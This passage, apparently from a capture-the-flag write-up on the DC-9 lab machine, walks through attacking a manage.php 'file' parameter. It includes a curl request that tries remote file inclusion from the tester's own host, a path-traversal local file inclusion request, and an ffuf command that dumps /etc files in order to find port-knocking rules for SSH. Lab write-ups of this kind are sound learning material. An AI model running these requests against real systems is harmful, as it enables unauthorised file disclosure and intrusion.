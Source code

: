 RFI was not vulnerable

```bash
curl -s 'http://dc-9/manage.php?file=http://192.168.45.216/ok.php' -H 'Cookie: PHPSESSID=8akku77i2jgfmchptgq9lv264u'
```

By including a PHP file on local, acknowledged it may be vulnerable to LFI since that causes the web page to halt

```bash
curl -s 'http://dc-9/manage.php?file=../display.php' -H 'Cookie: PHPSESSID=8akku77i2jgfmchptgq9lv264u'
```

It seems to have some filters since I can't use `php filter chain to RCE`

![](/assets/obsidian/20a5f0d0f344049124e6e15dca862873.png)

### Port knocking - Get access to ssh port

For port `22`, **nmap** shows `filtered` and `port-unreach`, which indicates it might have firewall blocking rules enabled

```ruby
22/tcp filtered ssh     port-unreach ttl 61
```

I will dump config files under `/etc` to check any firewall configs related to port `22`

By using my LFI dumping tool : [dfuf](https://github.com/opabravo/dfuf), I was able to dump all the common files in 2 minutes

```bash
ffuf -c -request-proto http -w /usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -u 'http://dc-9/manage.php?file=../../../../../..FUZZ' -b 'PHPSESSID=8akku77i2jgfmchptgq9lv264u' -fs 1341 -od ffuf -o ffuf.json
```
